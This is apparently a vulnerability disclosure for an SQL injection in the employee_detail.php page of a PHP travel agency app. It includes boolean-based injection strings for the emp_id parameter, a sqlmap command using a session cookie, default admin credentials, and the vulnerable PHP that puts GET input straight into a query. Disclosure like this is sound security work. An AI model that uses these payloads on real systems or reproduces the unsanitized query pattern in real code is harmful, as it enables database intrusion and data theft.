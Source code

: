 # [Online Travel Agency System-SQL Injection-employee_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66`    

**[Vulnerability Location]:** Travel/admin/employee_detail.php

**[Vulnerability Test]:**

1. When you enter `66%27%20and%20%271%27=%271` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153616.png)

   

2. When you enter `66%27%20and%20%271%27=%272` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153644.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66" --cookie="PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2" --current-db
   ```

   ![](../../img/20230428154020.png)

**[code analysis]:**

Travel/admin/employee_detail.php

```php
<?php
  $sql="select*from employee where emp_id='$_GET[emp_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_join=$row['emp_join'];
	$emp_close=$row['emp_close'];;
	$inserted_by=$row['inserted_by'];
}
?>
  
<h1 align="center"> ALMOQADAS TRAVEL AGENCY ::: EMPLOYEE</h1>
<form name="form1">
<div align="center" style="border:1px solid #333; width:850px; margin:0 auto;">
<p><img src="<?php echo $emp_picture;?>" alt="" width="111" height="132">



<table width="auto" height="auto" border="1" style="bar.css">
  <tr>
    <td height="41">ID</td>
    <td>NAME</td>
    <td>CONTACT</td>
    <td>ADDRESS</td>
    <td>REFERENCE</td>
    <td>EMAIL</td>
    <td>JOIN DATE</td>
    <td>LEAVING DATE</td>
  </tr>
  <tr>
    <td><?php echo $emp_id;?></td>
    <td><?php echo $emp_name;?></td>
    <td><?php echo $emp_contact;?></td>
    <td><?php echo $emp_address;?></td>
    <td><?php echo $emp_reference;?></td>
    <td><?php echo $emp_email;?></td>
    <td><?php echo $emp_join;?></td>
    <td><?php echo $emp_close;?></td>
   
  </tr>
</table>
</div>
<input type="button" value="print" onclick="window.print() ;" />
</form>
```

The GET parameter `emp_id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.